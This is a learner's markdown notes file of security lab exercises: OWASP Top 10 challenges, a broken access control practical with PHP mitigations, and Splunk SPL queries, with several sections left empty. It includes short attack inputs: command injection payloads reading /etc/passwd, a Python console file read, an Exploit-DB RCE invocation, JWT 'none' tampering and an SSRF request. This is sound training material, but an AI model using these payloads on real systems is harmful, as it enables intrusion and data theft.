

# Security Expert Labs
---
### Contents

1. ✅ [OWASP Top 10 2021](#owasp-top-10-2021)
2. ✅ [OWASP Broken Access Control](#owasp-broken-access-control)
3. [Classic DevSecOps pipeline](#classic-devsecops-pipeline)
4. [Cloud-native DevSecOps pipeline](#cloud-native-devsecops-pipeline)
5. ✅ [Splunk: Exploring SPL](#splunk-exploring-spl)
6. [Microsoft Sentinel Lab](#microsoft-sentinel-lab)
7. [Intro to Endpoint Security](#intro-to-endpoint-security)
8. [Wazuh](#wazuh)
9. [Active Directory Basics](#active-directory-basics)
10. [Enumerating Active Directory](#enumerating-active-directory)
11. [Active Directory Hardening](#active-directory-hardening)
12. [NTLM leak via Outlook](#ntlm-leak-via-outlook)
13. [CVE-2022-26923 AD Certificate Services](#cve-2022-26923-ad-certificate-services)
14. [AttacktiveDirectory](#attacktivedirectory)

---
## OWASP Top 10 2021


### Broken Access Control

**What:** A regular visitor being able to access protected pages. Leads to:

- Being able to view sensitive information from other users
- Accessing unauthorized functionality

Broken access control allows attackers to bypass `authorisation`, allowing them to view sensitive data or perform tasks they aren't supposed to.

### IDOR Challenge
**IDOR** or `Insecure Direct Object Reference` refers to an access control vulnerability where you can access resources you wouldn't ordinarily be able to see. This occurs when the programmer exposes a `Direct Object Reference`, which is just an identifier that refers to specific objects within the server. Notice that direct object references aren't the problem, but rather that the application doesn't validate if the logged-in user should have access to the requested account.

Example: 
```
https://bank.thm/account?id=111111 <-- changing 111111 to 222222
https://bank.thm/account?id=222222 --> exposing private information
```

**Challenge:** `http://10.10.118.159/note.php?note_id=2` <-- note_id number was able to be manipulated

**Answer:** `http://10.10.118.159/note.php?note_id=0` --> flag{fivefourthree}

### Cryptographic Failures

A cryptographic failure refers to any vulnerability arising from the misuse (or lack of use) of cryptographic algorithms for protecting sensitive information. Web applications require cryptography to provide confidentiality for their users at many levels. 

```
"When we encrypt the network traffic between the client and server, we usually refer to this as encrypting data in transit.
To this end, your emails might also be encrypted when stored on the servers. This is referred to as encrypting data at rest."
```

**Challenge:**

The cryptographic failure was a failure to encrypt data at rest in this case. When looking in `/assets`, a db file was found. The information could be extracted with `sqlite3`.


Using CrackStation it was easily possible to crack the hash, password: `qwertyuiop`.

### Injection
Injection attacks depend on what technologies are used and how these technologies interpret the input. Some common examples include:

- SQL Injection: This occurs when user-controlled input is passed to SQL queries.
- Command Injection: This occurs when user input is passed to system commands.

The main defence for preventing injection attacks is ensuring that user-controlled input is not interpreted as queries or commands. There are different ways of doing this:

- Using an allow list
- Stripping input: If the input contains dangerous characters, these are removed before processing. (Sanitizing)

### Command Injection Challenge


Injection commands that were used:

```bash
$(whoami)
$(awk -F: '$3 >= 1000 {print $1}' /etc/passwd)
$(cat /etc/alpine-release)
```

### Insecure Design

**Example:** Instagram allowed users to reset their forgotten passwords by sending them a 6-digit code to their mobile number via SMS for validation. If an attacker wanted to access a victim's account, he could try to brute-force the 6-digit code. As expected, this was not directly possible as Instagram had rate-limiting implemented so that after 250 attempts, the user would be blocked from trying further. If an attacker had several different IP addresses from where to send requests, he could now try 250 codes per IP.

The challenge consisted of wild guessing Joseph's favourite colour

### Security Misconfiguration

Security misconfigurations include:

    - Poorly configured permissions on cloud services, like S3 buckets.
    - Having unnecessary features enabled, like services, pages, accounts or privileges.
    - Default accounts with unchanged passwords.
    - Error messages that are overly detailed and allow attackers to find out more about the system.
    - Not using HTTP security headers.

Accessing `<IP>:86/console` allowed to interact with the console. The statement used to read the contents of app.py was: 

```python
import os; print(os.popen("cat app.py").read())`
```

### Vulnerable and Outdated Components - Lab

Googling projectworld 2017 vulnerablity, the first link provides an RCE script: 
https://www.exploit-db.com/exploits/47887

This can be used as the password for the `admin` login. Full command for the online book store 

```sh
python3 /usr/share/exploitdb/exploits/php/webapps/47887.py http://<IP>:port
```

### Identification and Authentication Failures

Attacks include:
- Brute force attacks
- Use of weak credentials
- Weak Session cookies

**Practical:** Exploiting the possibility of re-registration (with slightly modified data), enables us to retrieve information from `darren` and `arthurs` account. By using a space ' ' before the name, registration was possible under an existing users name. 

### Software and Data Integrity Failures

**What is it:** Suppose you have a website that uses third-party libraries that are stored in some external servers. If an attacker hacks the external server repository they could change the content of the libraries being used. Anyone visiting the website would pull the malicious code.

**How to prevent it:** Modern browsers allow you to specify a hash along the library's URL so that the library code is executed only if the hash of the downloaded file matches the expected value. This security mechanism is called Subresource Integrity (SRI)

```javascript
<script src="https://code.jquery.com/jquery-3.6.1.min.js" integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ=" crossorigin="anonymous"></script>
```

**Cookies** are key-value pairs that a web application will store on the user's browser and that will be automatically repeated on each request to the website that issued them. To make sure that the cookies haven't been altered by users, `JSON Web Tokens` (JWT) can help prove the integrity of a session. 


**JWT and the None Algorithm**
A data integrity failure was present on some libraries implementing JWT's a whie ago. JWT implements a signature to validate the integrty of a payload. To exploit the vulnerability, the header section `alg` needs to be `none`, and the signature removed.


Any decoding tool (like https://appdevtools.com/base64-encoder-decoder) that allows you to encode/decode base64 can help to manipulate the cookie.

### Security Logging and Monitoring Failures

Security Logging and Monitoring Failures have to do with `Accountability` (CIA(AA)). Logging is important because, in the event of an incident, the activites can be traced. Without logging, possible impacts include:

- Regulatory damage (affected users, fines)
- Risk of further attacks

The information in logs should include but is not limited to:

    - HTTP status codes
    - Time Stamps
    - Usernames
    - API endpoints/page locations
    - IP addresses

Common examples of suspiscious activity:

- Multiple unauthorised attempts for a particular action
- Requests form unusual/unknown IP addresses
- Use of automated tools, e.g.: using the value of `User-Agent` headers
- Common payloads

In the case of this room, a brute force was being carried out from ip: `49.99.13.16`

### Server-Side Request Forgery (SSRF)

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf. SSRF vulnerabilities often arise from implementations where a web application needs to use third-party services. Example:

```html
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```
If an attacker could modify the `server` value, they could send a request to a machine they control on behalf of the server. 

SSRF can be used to:

    - Enumerate internal networks, including IP addresses and ports.
    - Abuse trust relationships between servers and gain access to otherwise restricted services.
    - Interact with some non-HTTP services to get remote code execution (RCE).

By changing the value for the `server=secure-file-storage` to localhost, it was possible to retrieve (with `netcat`) the API flag via a GET request:

```
<attackbox>:8087/download?server=0.0.0.0:8087&id=75482342
```

---
### OWASP Broken Access Control



Access control is implemented to ensure that only authorized users have acces to resources. It can be implemented in different ways, common mechanisms include:

#### DAC - Discretionary Access Control

**What:** The resource owner determines who is allowed to access a resource and what actions are allowed to be performed. Commonly used in OS and file systems. 

#### MAC - Mandatory Access Control

**What:** Access to resrouces is determined by a set of predefined rules or policies enforced by the system. Commonly used in highly secure environment, such as govenment and military systems. Only specific individuals with particular security clearances can access certain resources.

#### RBAC - Role Based Access Control

**What:** Users are assigned roles that define their level of access to resources. Commonly used in enterprise systems, by users with different authority levels (e.g: managers, executives, sales staff, etc).

#### ABAC - Attribute-Based Access Control

**What:** Access to resources is determined by a sect of attributes, such as a user role, time of day, location, and device. Commonly used in cloud environments and web applications.

#### Common exploits for Broken Access Control:

    - Horizontal privilege escalation --> accessing resources on same level but across
    - Vertical privilege escalation --> accessing resources higher up
    - Insufficient Access control checks --> Inconsistent access control checks leading to bypassing
    - Insecure direct object references --> Accessing a resource by exploiting a weakness in the control mechanisms, see [here](#idor-challenge)

#### Practical

The web application features a register,login, and dashboard page. When registering, one is forwarded to the login page, and after successfuly logging in, the registration page is shown. Using The BurpSuite Proxy, it's possible to manipulate the `POST` and `GET` requests and proxy them towards the web application. 

By toggling the intercept after succesfully logging in, and setting the `/dashboard.php?isadmin=true` flag, the new user is able to receive admin rights.


#### Mitigation

Severa setps can be taken to mitigate Broken Access Control Vulns in PHP applications:

1. **Implement RBAC**

A useful method of regulating access to resourcs based on roles:

```php
 $roles = [
     'admin' => ['create', 'read', 'update', 'delete'],
     'editor' => ['create', 'read', 'update'],
     'user' => ['read'],
 ];

 if (hasPermission('admin', 'delete')) {
     ...
 } 
```

2. **Use Parametrized Queries**

Prepared statement protect against SQL Injection. By using placeholders, a statement is prepared:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->execute([$username, $password]);
```

3. **Proper Session Management**

Ensures that authenticated users have timely and appropriate access to resources. Includes: Secure cookies, session timeouts, limiting number of active sessions:

```php
if (isset($_SESSION['last_activity']) && (time() - $_SESSION['last_activity'] > 1800)) {
     // Session has expired
}
```

4. **Use Secure Coding Practices**

Developers should sanitize and validate user input, and avoid using insecure functions or libraries.

---
### Classic DevSecOps pipeline

---
### Cloud-native DevSecOps pipeline

---
### Splunk: Exploring SPL


Splunk is a powerful `SIEM solution` that provides the ability to search and explore machine data. **Search Processing Language (SPL)** is used to make the search more effective. It comprises various functions and commands used together to form complex yet effective search queries.

**Search & Reporting App** is the default interface used to search and analyze the data on the Splunk Home page.

1) **Search Head:** Search processing language queries to look for the data.

2) **Time Duration:** provides multiple options to select the time duration for the search. All-time will display the events in real-time.

3) **Search History:** saves the search queries that the user has run in the past along with the time when it was run. It lets the user click on the past searches and look at the result.

4) **Data Summary:** provides a summary of the data type, the data source, and the hosts that generated the events.

5) **Field Sidebar:** has two sections showing selected fields and interesting fields. Also provides quick results, such as top values and raw values against each field. Contains categories such as: `Interesting fields`, `Selected fields`, `Alpha-numeric fields` (that the field contains text values), `Numeric Fields '#'`, `Count`.

#### Practical

Index being used: `index=Windowslogs`

Time stamps being applie: `4/15/22 8:05:00.000 AM - 4/15/22 8:06:00.000 AM`

#### SPL Operators

| Field Name               | Operator                          | Example                   |
|--------------------------|-----------------------------------|---------------------------|
| Equal                    | =                                 | UserName=Mark             |
| Not Equal to             | !=                                | UserName!=Mark            |
| Less than                | <                                 | Age < 10                  |
| Less than or Equal to    | <=                                | Age <= 10                 |
| Greater than             | >                                 | Outbound_traffic > 50 MB  |
| Greater Than or Equal to | >=                                | Outbound_traffic >= 50 MB |
| NOT                      | field_A NOT value                 |                           |
| OR                       | field_A=value1 OR field_A=value2  |                           |
| AND                      | field_A=value1 AND field_B=value2 |                           |

**Example 1:** `index=windowslogs AccountName !=SYSTEM`

**Example 2:** `index=windowslogs AccountName !=SYSTEM AND AccountName=James`

#### Practical

Used queries:

    - index=Windowslogs EventID="1" AND User=*James*
    - index=Windowslogs DestinationIp="172.18.39.6" AND DestinationPort="135"
    - index=windowslogs Hostname="Salena.Adam" DestinationIp="172.18.38.5"
    - index=windowslogs* cyber
    - index=windowslogs | table _time EventID Hostname SourceName | reverse
    - index=windowslogs | fields + host + User + SourceIp

#### Filtering

|  Command  |           Example           |                                    Explanation                                    |
|:---------:|:---------------------------:|:---------------------------------------------------------------------------------:|
| fields    | fields + HostName - EventID | Fields command is used to add or remove mentioned fields from the search results. |
| search    | search "Powershell"         | This command is used to search for the raw text                                   |
| rename    | rename User as Employees    | It allows us to change the name of the field                                      |
| dedup     |        dedup EventID        | The command used to remove duplicate fields from the search results               |
| head      |           head 20           | First 20 rows                                                                     |
| table     |              -              | Creates a table of the results                                                    |
| tail      |           tail 20           | Last 20 rows                                                                      |
| sort      |        sort Hostname        | sorts on category                                                                 |
| reverse   |              -              | reverses order of events                                                          |
| top       | top 10                      | Top 10 results                                                                    |
| rare      | rare limit=3 EventID        | Opposite of top                                                                   |
| highlight | highlight User, host        | Shows the results in raw events mode with fields highlighted                      |
| chart     | \| chart count by User      | Used to transform the data into tables or visualizations                          |
| timechart | timechart count by Image    | Returns the time series chart covering the field. Often combined with STATS       |

#### Stats

| Command | Explanation                                               | Syntax                            | Example                  |
|---------|-----------------------------------------------------------|-----------------------------------|--------------------------|
| Average | Used to calculate the average of the given field.         | stats avg(field_name)             | stats avg(product_price) |
| Max     | It will return the maximum value from the specific field. | stats max(field_name)             | stats max(user_age)      |
| Min     | It will return the minimum value from the specific field. | stats min(field_name)             | stats min(product_price) |
| Sum     | It will return the sum of the fields in a specific value. | stats sum(field_name)             | stats sum(product_cost)  |
| Count   | The count command returns the number of data occurrences. | stats count(function) AS new_NAME | stats count(source_IP)   |

---
### Microsoft Sentinel Lab

---
### Intro to Endpoint Security

---
### Wazuh

---
### Active Directory Basics

---
### Enumerating Active Directory

---
### Active Directory Hardening

---
### NTLM leak via Outlook

---
### CVE-2022-26923 AD Certificate Services

---
### AttacktiveDirectory

#### [Back to top](#contents)